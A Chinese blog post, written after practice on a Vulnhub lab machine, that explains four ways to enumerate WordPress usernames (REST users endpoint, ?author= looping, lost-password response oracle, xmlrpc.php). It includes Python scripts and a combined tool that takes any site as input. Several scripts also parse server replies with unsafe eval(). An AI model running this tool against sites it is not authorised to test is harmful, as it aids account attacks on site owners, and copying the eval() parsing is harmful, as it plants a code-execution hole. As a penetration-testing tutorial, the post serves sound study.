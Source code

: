 ```yaml
---
layout:     post
title:      总结wordpress枚举用户名的四种方式
subtitle:   如何枚举wordpress用户名？
date:       2019-06-29
author:     看不尽的尘埃
header-img: img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
    - 渗透测试
---
```

# 前言
前几天在做Vulnhub DC-2 靶机的时候，80端口上的Web应用程序是WordPress，当时想用WPScan来枚举用户的，但是Kali Linux 和Parrot OS 上的WPScan都用不了了。于是，我上了google去搜了一些关于WordPress枚举用户的文章，顺便记录一下，以后实战中遇到WordPress的站可以多一些尝试！
# 方式
## 方式一：利用接口
通过这个接口，可以获取到部分的用户名
```
/index.php/wp-json/wp/v2/users/?per_page=100&page=1
```
如下图所示，找到了2个用户名，虽然不全，但是也是一个可以利用的点：
![图片](../../../../img/wp-user-1.png)

下面通过Python脚本来自动实现：
```
import requests

users_list = []
headers = {'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36'}

response = requests.get(target + "/index.php/wp-json/wp/v2/users/?per_page=100&page=1",headers=headers)
r_text = eval(response.text)
for i in range(0,10):
    users_list.append(r_text[i]['name'])
```

## 方式二：利用遍历author参数
如果存在author为1的，就会重定向到作者页面
```
/?author=1
```
如下图所示，可以看到页面的标题变成了admin，因此可以通过脚本来做到枚举用户名：
![图片](../../../../img/wp-user-2.png)
python代码如下：
```
import requests
from bs4 import BeautifulSoup
users_list = []

for i in range(1,10):
    r = requests.get(target+"/?author=%s" % i)
    if r.status_code == 200:
        con = r.content
        soup = BeautifulSoup(con, "html.parser")
        title = soup.head.title.string
        title = title.strip()
        title = title.split("–")
        title = title[0].strip()
        if title not in users_list:
            users_list.append(title)
```
## print(users_list)

方式三：后台忘记密码功能
由于后台密码忘记功能那里，会让你输入用户名，如果存在就302重定向到下一个页面，如果不存在状态码是200。因此写了一个python脚本：
```
import requests
users_list = []

post_headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36',
           'Content-Type':'application/x-www-form-urlencoded'}
usernames = open("users_list.txt","r",encoding='utf-8',errors='ignore')
for user in usernames:
    user = user.strip()
    data = "user_login=%s&redirect_to=&wp-submit=Get+New+Password" % user
    forget_r = requests.post(target + "/wp-login.php?action=lostpassword",headers=post_headers,data=data,allow_redirects=False)
    if forget_r.status_code == 302:
        if user not in users_list:
            users_list.append(user)
print(users_list)
usernames.close()
```

## 方式四：通过xmlrpc.php
这个方法，我这本地测试没成功，国外有一篇文章写的很详细，可以看一下：[https://medium.com/@the.bilal.rizwan/wordpress-xmlrpc-php-common-vulnerabilites-how-to-exploit-them-d8d3c8600b32](https://medium.com/@the.bilal.rizwan/wordpress-xmlrpc-php-common-vulnerabilites-how-to-exploit-them-d8d3c8600b32)

# Python脚本自动化
### 代码
这里就把上述的三种方式整合一下，打造一个用来枚举WordPress用户名的小工具。
```
#!/usr/bin/python
# -*- coding:utf-8 -*-
# wirter:En_dust
# Blog:https://www.opensource-sec.com/
import requests
from bs4 import BeautifulSoup
users_list = []
headers = {'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36'}

def enumerat_user(target):
    try:
        response = requests.get(target + "/index.php/wp-json/wp/v2/users/?per_page=100&page=1",headers=headers)
        r_text = eval(response.text)
        for i in range(0,10):
            users_list.append(r_text[i]['name'])
    except:
        pass
    finally:
        print(users_list)

    for i in range(1,10):
        r = requests.get(target+"/?author=%s" % i)
        if r.status_code == 200:
            con = r.content
            soup = BeautifulSoup(con, "html.parser")
            title = soup.head.title.string
            title = title.strip()
            title = title.split("–")
            title = title[0].strip()
            if title not in users_list:
                users_list.append(title)
    print(users_list)

    post_headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36',
               'Content-Type':'application/x-www-form-urlencoded'}
    usernames = open("users_list.txt","r",encoding='utf-8',errors='ignore')
    for user in usernames:
        user = user.strip()
        data = "user_login=%s&redirect_to=&wp-submit=Get+New+Password" % user
        forget_r = requests.post(target + "/wp-login.php?action=lostpassword",headers=post_headers,data=data,allow_redirects=False)
        if forget_r.status_code == 302:
            if user not in users_list:
                users_list.append(user)
    print(users_list)
    usernames.close()


def main():
    print("WordPress枚举用户名工具")
    website = input("输入一个由WordPress搭建的网站：")
    enumerat_user(website)


if __name__ == '__main__':
```
    main()


